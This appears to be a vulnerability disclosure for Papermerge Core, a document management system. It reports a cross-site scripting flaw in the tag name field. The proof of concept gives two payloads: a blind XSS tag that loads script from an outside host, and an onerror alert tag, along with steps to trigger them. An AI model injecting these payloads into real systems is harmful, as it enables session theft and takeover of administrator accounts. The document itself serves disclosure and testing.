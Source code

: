 # Description
Papermerge Core contains essential functionality shared among different flavors of Papermerge Document Management System (DMS).

** What is Papermerge? **
Papermerge is an open source document management system (DMS) primarily designed for archiving and retrieving your digital documents. Instead of having piles of paper documents all over your desk, office or drawers - you can quickly scan them and configure your scanner to directly upload to Papermerge DMS. Papermerge DMS on its turn will extract text data from the scanned documents using Optical Character Recognition (OCR) technology the index it and make it searchable. You will be able to quickly find any (scanned!) document using full text search capabilities.
Papermerge is perfect tool to manage PDF, JPEG, TIFF and PNG formats.
# Technical Description
XSS in papermerge DMS via rendering of unsanitized tag name in the input label.
# Proof of Concept

* XSS payloads Used for exploit :
  * blind xss payload : ```"><script src=https://copp.xss.ht></script> ``` **use your own blind payloads**
  * Reflected XSS payload : ```<img src=x onerror=alert(1337)>```

1. setup papermerge in your localhost 
2. move to http://127.0.0.1:8000/admin/tag/add/
3. put the payload in the Name field 
4. BOOM !! XSS triggered
